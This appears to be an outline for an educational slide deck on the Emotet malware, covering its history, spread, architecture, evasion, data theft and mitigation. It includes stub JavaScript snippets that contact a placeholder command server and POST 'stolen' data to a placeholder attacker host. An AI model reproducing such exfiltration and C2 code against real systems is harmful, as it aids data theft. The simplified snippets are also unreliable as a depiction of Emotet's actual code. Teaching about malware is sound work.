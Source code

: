 
## Table of Contents


### Introduction and History:

- **Slide 1:** Title and brief overview of Emotet (Text).
- **Slide 2:** Historical timeline or infographic depicting Emotet's evolution (Image).
- **Slide 3:** Key milestones in Emotet's development (Text and possibly Images).

### Propagation Methods:

- **Slide 1:** Title and explanation of Emotet's propagation methods (Text).
- **Slide 2:** Visual representation of a typical Emotet spam email (Image).
- **Slide 3:** Diagram showing how Emotet spreads through malicious links and attachments (Image).

### Modular Architecture and Botnet Infrastructure:

- **Slide 1:** Title and explanation of Emotet's modular architecture (Text).
- **Slide 2:** Diagram illustrating Emotet's modular components (Image).
- **Slide 3:** Visualization of Emotet's botnet structure (Code).

**Code Block Example for Slide 3 (Modular architecture in JavaScript):**

```javascript
// Example of Emotet's Botnet Communication
function communicateWithC2Server() {
    const c2Server = "http://malicious-c2.com";
    const payload = "data_to_send";

    // Code to establish communication with the C2 server
    fetch(`${c2Server}/command?data=${payload}`)
        .then(response => response.text())
        .then(data => {
            // Code to process and execute received commands
            if (data === "download_payload") {
                downloadMalwarePayload();
            } else if (data === "spread_malware") {
                spreadMalware();
            }
        })
        .catch(error => {
            // Handle communication errors
            console.error("Error communicating with C2 server:", error);
        });
}

// Example of Emotet's Payload Download Functionality
function downloadMalwarePayload() {
    // Code to download and execute additional malware payloads
    // ...
}

// Example of Emotet's Malware Spreading Functionality
function spreadMalware() {
    // Code to spread Emotet to other vulnerable systems
    // ...
}

// Call the communication function to interact with the C2 server
communicateWithC2Server();
```

### Persistence and Evasion Techniques:

- **Slide 1:** Title and explanation of how Emotet maintains persistence (Text).
- **Slide 2:** Visualization of Windows Registry modifications (Image).
- **Slide 3:** Explanation of Emotet's evasion tactics with examples (Text and Code Block in JavaScript).

**Code Block Example for Slide 3 (Evasion Tactics in JavaScript):**

```javascript
// Example of Emotet's Polymorphic Code
function polymorphicCode() {
    // Code to generate polymorphic variations
    // ...
}

// Example of Emotet's Anti-Sandboxing Techniques
function antiSandbox() {
    // Code to detect sandboxing environments
    // ...
}

// Example of Emotet's Process Hollowing
function processHollowing() {
    // Code to perform process hollowing
    // ...
}

// Call the evasion functions
polymorphicCode();
antiSandbox();
processHollowing();
```

### Data Theft and Exfiltration:

- **Slide 1:** Title and overview of data theft by Emotet (Text).
- **Slide 2:** Visual representation of data exfiltration (Image).
- **Slide 3:** Risks associated with data breaches and impact (Text and Code Block in JavaScript).

**Code Block Example for Slide 3 (Data Exfiltration in JavaScript):**

```javascript
// Example of Emotet's Data Exfiltration Code
function exfiltrateData(dataToSteal) {
    const maliciousServer = "http://attacker-server.com";

    // Code to send stolen data to the attacker's server
    fetch(maliciousServer, {
        method: "POST",
        body: dataToSteal,
    })
    .then((response) => {
        if (response.status === 200) {
            // Successful exfiltration
            console.log("Data exfiltration successful.");
        } else {
            // Exfiltration failed
            console.error("Data exfiltration failed.");
        }
    })
    .catch((error) => {
        // Handle errors during data exfiltration
        console.error("Error during data exfiltration:", error);
    });
}

// Example usage of the data exfiltration function
const dataToSteal = "Sensitive data to be stolen";
exfiltrateData(dataToSteal);
```

### Impact and Dangers:

- **Slide 1:** Title and introduction to Emotet's impact (Text).
- **Slide 2:** Statistics or graphs showing the scale of Emotet's impact (Graphs/Images).
- **Slide 3:** Real-world examples of Emotet-related incidents (Text).

### detection and Mitigation:

- **Slide 1:** Title and strategies for preventing Emotet infections (Text).
- **Slide 2:** Visual representation of email filtering and user education (Images).
- **Slide 3:** Tips for keeping software up-to-date and safe browsing (Text and Code Block in JavaScript).

**Code Block Example for Slide 3 (Software Update Tips in JavaScript):**

```javascript
// Example JavaScript code for updating software
const updateSoftware = () => {
    // Code to check for and apply software updates
    // ...
};
```

# Emotet
